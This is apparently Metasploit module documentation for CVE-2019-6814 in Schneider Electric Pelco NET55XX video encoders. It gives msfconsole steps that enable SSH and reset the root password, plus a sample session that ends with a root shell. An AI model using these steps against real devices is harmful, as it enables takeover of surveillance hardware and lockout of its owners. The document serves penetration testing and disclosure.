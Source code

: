 ## Vulnerable Application

Schneider Electric Pelco NET55XX Encoder (CVE 2019-6814)

Adding Schneider Electric Pelco NET55XX module affecting NET55XX versions (NET5501, NET5501-I, NET5501-XT, NET5504, NET5500,NET5516,NET550).
 This module exploits an inadequate access control vulnerability creating a malicious JSON request to the `webUI` encoder, thus allowing the SSH service to be enabled and changing the root password.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use  use exploit/linux/http/schneider_electric_net55xx_encoder`
- [ ] `set RHOSTS [rhosts]`
- [ ] `set RPORT [rport]`
- [ ] `set NEW_PASSWORD [new password]`
- [ ] `exploit`
- [ ] Verify you get a root shell

## Options

This module can be as simple as setting the `RHOST` and `NEW_PASSWORD` option, and you're ready to go.

**NEW_PASSWORD**  

You should set a new SSH password to the vulnerable device.


## Scenarios

**Schneider Electric Pelco Encoder NET5501-XT**

msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RHOSTS 192.168.34.2
RHOSTS  => 192.168.34.2
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set RPORT 80
RPORT  => 80
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > set NEW_PASSWORD msfrapid7
NEW_PASSWORD => msfrapid7
msf5 exploit(unix/http/schneider_electric_net55xx_encoder) > run

[] 192.168.34.2:22 - Attempt to start a SSH connection...
[] 192.168.34.2:80 - Attempt to change the root password...
[+] 192.168.34.2:80 - Successfully changed the root password...
[+] 192.168.34.2:22 - Session established
[] Found shell.
[] Command shell session 1 opened (192.168.34.3:37033 -> 192.168.34.2:22) at 2019-07-03 10:57:07 -0400

uname -a;id
Linux NET5501-XT-K61200103 2.6.37 #1 PREEMPT Fri Aug 8 04:33:08 KST 2014 armv7l unknown
uid=0(root) gid=0(root) groups=0(root)
